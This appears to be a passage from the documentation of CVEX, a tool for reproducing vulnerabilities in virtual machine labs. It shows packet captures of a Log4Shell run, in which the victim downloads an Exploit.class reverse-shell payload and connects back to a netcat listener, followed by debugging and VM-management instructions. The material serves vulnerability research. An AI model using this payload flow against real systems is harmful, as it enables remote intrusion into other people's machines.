15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.


